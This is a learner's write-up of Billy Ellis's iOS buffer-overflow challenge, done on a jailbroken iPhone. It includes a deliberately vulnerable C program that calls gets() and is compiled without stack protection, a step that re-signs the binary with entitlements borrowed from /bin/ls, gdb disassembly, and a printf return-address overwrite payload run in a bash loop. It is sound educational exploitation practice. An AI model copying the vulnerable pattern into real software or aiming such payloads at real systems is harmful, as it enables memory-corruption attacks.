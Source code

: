 # iOS Buffer Overflow attack

This program is the start of my journey. I always loved jailbreaking since I was young but I disliked programming (given by the D- I received in AP Computer science). It wasnt until university until I knew that I wanted to do things revolving around iOS. 
Eventually I switched my major to computer science and got into iOS development and it wasn't until recently I got into exploitation and the nitty gritty of iOS internals. This is the beginning of my journey and I hope you tear it apart because I will probably learn from it.

Im also doing this in VIM because I want to learn it so godspeed.

The challenges in these writeups are from [Billy Ellis](https://github.com/Billy-Ellis/Exploit-Challenges). Although Im going through his book at the time these may be different than the ones he has uploaded on github.

## The program
------
```
#include <stdio.h>
#include <stdlib.h>

void secret() {
    printf("You found the secret! Buffer overflow challenge completed!i\n");	
}
int main( int argc, char *argv[]) {
    char buff[8];
    printf("Enter a string: \n");
    gets(buff);
    printf("You entered: %s\n", buff);
	return 0;
}
```

Lets walk through this step by step. At the top is the header, `<stdio.h>` imports the standard input and output header, hence the "stdio" name. After that is the function named secret which prints out a statement that you've completed the challenge, more on that later.

After this is the main() function. This contains a character buffer that is meant to store your input, specifically, 8 characters. After this statement is a printf asking for your input and then a gets(). This is where the vulnerability lies.

Essentially it takes the string that you entered "%s" and tries to stuff it inside of a 8 character array. Since gets doesn't do any checks on whether your input will actually fit inside or not, it's prone to buffer overflows. The point of a buffer overflow attack is essentially to give enough random input so that you can **overwrite** the link register aka the _return address_ and effectively redirecting the control flow of the program to wherever you desire.
Usually the place you redirect to *bypasses* the security measures put in place by the program.

Now, I am doing this on an iPhone SE running 11.2.6 on the unc0ver jailbreak. So I am compiling the program on the device.

## The setup
------
First I want to compile the program.

`
clang buffer_overflow.c -isysroot $THEOS/sdks/iPhoneOS11.2.sdk/ -fno-stack-protector -fno-pic -o buffer_overflow
`

First I use clang, which can be downloaded through Cydia. Then the next argument is the program, in this case buffer_overflow.c and then isysroot and the path to it. I have theos installed on device with some sdks so I use the ios11.2 SDK which is necessary to compile on ios11. Finally come the arguments to essentially make the program vulnerable.

-fno-stack-protector stands for "force no stack protector", this tells the program to disable the stack smasher that prevents stack overflows from happening. These arguments are provided by Billy Ellis so I am adding them as well. -fno-pic stands for force no position independant code. This protects against buffer overflows by forcing the program to not have ASLR enabled. Address space layout randomization randomizes where executable are loaded into memory rather than keeping the addresses the same.

Although it doesn't completly remove ASLR it makes it more vulnerable (apparently).

**Definiton:** Address space layout randomization (ASLR) is a memory-protection process for operating systems (OSes) that guards against buffer-overflow attacks by randomizing the location where system executables are loaded into memory.
 
To make the executable run on the device it has to be signed. 

`
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls
`
```
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>platform-application</key>
	<true/>
	<key>com.apple.private.skip-library-validation</key>
	<true/>
</dict>
</plist>
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls > ent.plist
mobile@ven1xus-SE:~/programs/challenges$ ldid -Sent.plist buffer_overflow
```

The first command run essentially prints out the entitlement used for signing the ls command. I then take this entitlement and put it into a file that I can use to sign my own programs. Finally I sign buffer_overflow with the ls entitlement.

It is required to sign executables on iOS devices because it is a security measure implemented by apple back in iOS 2 or something like that.


## Analysis
------
Now we have to analyze the binary, so I will use GDB (Gnu Debugger) or send it over to my MacBook using scp.

`
tommy@ven1xus-mbp:~$ scp -P 2222 mobile@localhost:~/programs/challenges/buffer_overflow ~/Desktop/bufferOverflow/
`

Keep in mind that my phone is hooked up via USB so thats why scp -P 2222 is used. This command works as follows:

1. **scp -P 2222 mobile@localhost:** - This means to login as the user "mobile" at your computers port 2222 which my iPhone is hooked up to. Meaning to login to the iPhone

2. **~/programs/challenges/buffer_overflow** - This is the location of the buffer_overflow file we need to acquire.

3. **~/Desktop/bufferOverflow/** - This is the location I want to move it do on my MacBook.

So now that you have the buffer_overflow executable where you want it run gdb on the executable.
`
mobile@ven1xus-SE:~/programs/challenges$ gdb buffer_overflow
`

and then disassemble the secret function so we can see where the start address of the function is.

```
(gdb) disas secret 
Dump of assembler code for function secret:
   0x0000000100007e7c <+0>:	sub	sp, sp, #0x20
   0x0000000100007e80 <+4>:	stp	x29, x30, [sp,#16]
   0x0000000100007e84 <+8>:	add	x29, sp, #0x10
   0x0000000100007e88 <+12>:	adrp	x0, 0x100007000
   0x0000000100007e8c <+16>:	add	x0, x0, #0xf58
   0x0000000100007e90 <+20>:	bl	0x100007f1c
   0x0000000100007e94 <+24>:	stur	w0, [x29,#-4]
   0x0000000100007e98 <+28>:	ldp	x29, x30, [sp,#16]
   0x0000000100007e9c <+32>:	add	sp, sp, #0x20
   0x0000000100007ea0 <+36>:	ret
End of assembler dump.
```

As you can see the memory address of the function is `0x0000000100007e7c`

## Exploit
------
Now we have to see how many characters gets() can put into the buffer by adding characters until an illegal instruction is thrown. For me it was ~33 characters.

```
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD" | ./buffer_overflow 
Enter a string: 
warning: this program uses gets(), which is unsafe.
You entered:  AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD
Illegal instruction: 4
```

Now since iOS is in little endian format, we have to put the bytes at the end of that long string so the instruction pointer can point to the secret function like so.

`
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow 
`

Now since this will throw a segmentation fault, your going to have to write a script to run this like command until the secret function is found and the stars aligned. I wrote the script in bash like so.

```
#!/bin/bash
for i in {1..100000}
do
        printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow
done
```

Running this gives the follows eventually.

![Final output](complete.png)

**Congratulations you've done a buffer overflow on iOS!**

